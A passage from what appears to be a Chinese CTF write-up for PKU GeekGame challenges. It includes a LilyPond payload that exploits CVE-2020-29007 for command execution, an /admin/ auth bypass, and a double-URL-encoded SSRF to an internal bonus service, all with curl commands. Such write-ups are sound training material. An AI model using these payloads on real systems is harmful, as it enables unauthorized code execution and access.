 能看出来我们想要找的就是 CVE-2020-29007 这个 RCE。

搜索这个 CVE ID，能看到 bug tracker 上有[利用方法](https://phabricator.wikimedia.org/T257062)。

接下来问题就是怎么拿 flag 了。

通过使用检测文件是否存在的 payload，我确定了 flag2 在 /flag2，score 保存的图片在 /var/www/html/images/ 下。

```html
<score lang="lilypond">\new Staff <<{c^#
(if (file-exists? "/var/www/html/images/") "true" "false")
}>></score>
```

那么，只要用 RCE 把 flag 拷到能读的目录，再通过浏览器下载即可。

```html
<score lang="lilypond">\new Staff <<{c^#
(number->string (system "cp /flag2  /var/www/html/images/flag"))
}>></score>
```

flag 地址：https://prob07-XXX.geekgame.pku.edu.cn/images/flag

## 企业级理解

### 赋能管理后台

审计源码，发现路由配置符合 /** 格式的 url 是不需要登录的，但是 /admin 需要。
猜测通过 /admin/ 也能访问管理后台，试了一下的确是这样。

管理后台有一个表单，我原来以为是用来添加 item 用的，所以在第一阶段没有找到 flag1，也没继续做下去。。。

第二阶段再回来看这道题，才发现这个后台其实是有查看功能的。
访问 PKU_GeekGame 这个 item 就能得到 flag。

```
curl http://prob08-XXX.geekgame.pku.edu.cn/admin/query/ -d "type=PKU_GeekGame&value=" -v
```

### 盘活业务增长

第二问要求访问 bonus 服务。
通过题目提供了的源码可以知道，bonus 服务在本机的 8080 端口上。
也就是说需要找一个办法发请求。

审计了一下提供了的 source_bak，发现这个后端有个 web client，会把 url 里 index 参数当地址访问。
而这个 index 的值是可以用任意 url encode 过了的值覆盖的。

可以想到，把完整的 bonus 服务器地址传递进去，后端就会去访问。

测试发现，直接传递完整地址的话会返回404，url encode 一次的话服务器会返回400.
而 url encode 2次的话就能顺利访问到 bonus 服务了。

```
curl http://prob08-XXX.geekgame.pku.edu.cn/admin/http%253A%252F%252Flocalhost%253A8080%252Fbonus%252F/ -v
```
